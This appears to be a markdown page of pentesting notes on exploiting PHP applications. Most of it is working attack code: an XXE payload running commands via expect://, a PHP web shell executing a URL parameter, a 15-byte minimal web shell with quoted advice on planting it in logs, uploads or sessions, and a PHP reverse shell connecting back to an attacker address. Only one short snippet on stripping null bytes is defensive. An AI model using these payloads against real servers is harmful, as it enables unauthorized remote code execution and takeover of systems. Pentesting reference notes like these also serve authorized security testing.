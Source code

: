 # Exploiting PHP

## RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [XXE (XML External Entity) Attacks](./XXE%20%28XML%20External%20Entity%29%20Attacks.md)

## The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [The Poison Null Byte](./The%20Poison%20Null%20Byte.md)

## Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

### Relevant Twitter Thread

> Did you know the shortest payload to achieve code execution in PHP is only 15 bytes long ? 🤯 If you can inject it in a page on the site you will achieve remote code execution! This is really useful in BugBounty or pentest when you have a limited input size.
> 
> — [Podalirius (Twitter)](https://twitter.com/podalirius_/status/1488921781637365771)

> To trigger the code execution, you have to find a way to access your injected page (direct access or inclusion) and add this GET parameter to the URL: http://localhost:8000/rce.php?1=id
> 
> — [Podalirius (Twitter)](https://twitter.com/podalirius_/status/1488921786515435520)

> This payload can be used to be reflected in many files on a web application, for example you can put it: (1) In metadata, (2) somewhere in the logs, (3) in an uploaded file that you control, (4) in your PHP session (it will be written to a file)
> 
> — [Podalirius (Twitter)](https://twitter.com/podalirius_/status/1488921788742569987)

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.

* [Using "netcat"](./Using%20%22netcat%22.md)
* [Using "socat"](./Using%20%22socat%22.md)
